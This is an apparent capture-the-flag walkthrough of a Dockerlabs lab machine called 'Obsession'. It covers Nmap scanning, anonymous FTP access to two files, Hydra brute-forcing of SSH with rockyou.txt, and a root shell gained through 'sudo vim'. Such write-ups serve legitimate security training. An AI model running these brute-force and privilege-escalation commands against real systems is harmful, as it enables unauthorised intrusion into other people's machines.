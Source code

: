 # Obsession

## Port Enumeration

To begin our scan, we use the Nmap tool during our discovery phase. As we can see, we have the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```
Let's perform a more targeted scan of the services we have.
For the FTP service, we use this type of scan that tests some typical scripts:

```ruby
nmap -p21 -T4 --min-rate 1000 --script vuln,ftp-anon,ftp-bounce,ftp-syst 172.17.0.2
```
![Descripción de Obssesion](Imagenes/Obssesion_1.png)

We see that the default anonymous user and password are allowed, and we find two interesting files:
chat_gonza.txt and pendientes.txt.

Therefore, we download them to view the contents of both files with the following command once we're inside the
FTP service:

![Descripción de Obssesion](Imagenes/Obssesion_2.png)

Similarly, we perform a more specific scan for the SSH service:

```ruby
nmap -p22 -T4 --min-rate 1000 --script vuln,ssh-auth-methods,ssh-publickey-acceptance,sshv1 172.17.0.2
```
![Descripción de Obssesion](Imagenes/Obssesion_3.png)

However, we don't get anything relevant.

## Examining the Web Page
Let's see what's on the web page. If we examine the source code,
this appears:
![Descripción de Obssesion](Imagenes/Obssesion_4.png)

## Examining files
Let's examine the two files we downloaded via the FTP service:

fichero pendientes.txt

```ruby
1 Comprar el Voucher de la certificación eJPTv2 cuanto antes!

2 Aumentar el precio de mis asesorías online en la Web!

3 Terminar mi laboratorio vulnerable para la plataforma Dockerlabs!

4 Cambiar algunas configuraciones de mi equipo, creo que tengo ciertos
  permisos habilitados que no son del todo seguros..
```

fichero chat_gonza.txt
```ruby
[16:21, 16/6/2024] Gonza: pero en serio es tan guapa esa tal Nágore como dices?
[16:28, 16/6/2024] Russoski: es una auténtica princesa pff, le he hecho hasta un vídeo y todo, lo tengo ya subido y tengo la URL guardada
[16:29, 16/6/2024] Russoski: en mi ordenador en una ruta segura, ahora cuando quedemos te lo muestro si quieres
[21:52, 16/6/2024] Gonza: buah la verdad tenías razón eh, es hermosa esa chica, del 9 no baja
[21:53, 16/6/2024] Gonza: por cierto buen entreno el de hoy en el gym, noto los brazos bastante hinchados, así sí
[22:36, 16/6/2024] Russoski: te lo dije, ya sabes que yo tengo buenos gustos para estas cosas xD, y sí buen training hoy
```
We can see that there are three potential users "Gonza", "Russoski" and "Nagore", so we're going to try if any of these users allow us to access the SSH service. For this, I'm going to use the hydra tool and the "rockyou.txt" dictionary.

```ruby
hydra -l gonza -P rockyou.txt -t 16 -W 30 -f  ssh://172.17.0.2
hydra -l russoski -P rockyou.txt -t 16 -W 30 -f  ssh://172.17.0.2
hydra -l nagore -P rockyou.txt -t 16 -W 30 -f  ssh://172.17.0.2
```
![Descripción de Obssesion](Imagenes/Obssesion_5.png)

## Intrusion

We see that we get russoski's password which is "iloveme", so we can now connect to the SSH service:

![Descripción de Obssesion](Imagenes/Obssesion_6.png)

![Descripción de Obssesion](Imagenes/Obssesion_7.png)


## Privilege Escalation

We execute the command:
```ruby
sudo -l
```

We see that we can execute the vim binary as root, so we go to GTFOBins and check if we can exploit it:

```ruby
sudo vim -c ':!/bin/sh'
```
![Descripción de Obssesion](Imagenes/Obssesion_8.png)
